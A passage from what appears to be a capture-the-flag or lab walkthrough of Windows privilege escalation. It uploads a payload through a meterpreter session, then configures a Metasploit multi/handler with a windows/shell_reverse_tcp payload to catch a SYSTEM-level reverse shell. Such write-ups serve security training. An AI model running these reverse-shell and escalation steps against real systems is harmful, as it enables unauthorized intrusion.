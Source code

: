 Now let's go back to our meterpreter shell to upload the payload to our target
```shell
upload /path/to/payload
```
![](images/20230913101225.png)

Before we execute our payload by starting the service again, we need to first setup a multi handler to catch our new shell as `NT Authority\System`. To do that we first background our current meterpreter shell using CTRL + Z and use the multi handler:

```shell
use exploit/multi/handler
```

Next we set the appropriate options like the same payload we created using msfvenom then set the Listener IP and Port.

```shell
set payload windows/shell_reverse_tcp
set LHOST <IP>
set LPORT <PORT>
```

![](images/20230913101929.png)
now we run the exploit as a job so that it will run in the background and enter into our previous meterpreter session:
```shell
exploit -j
```
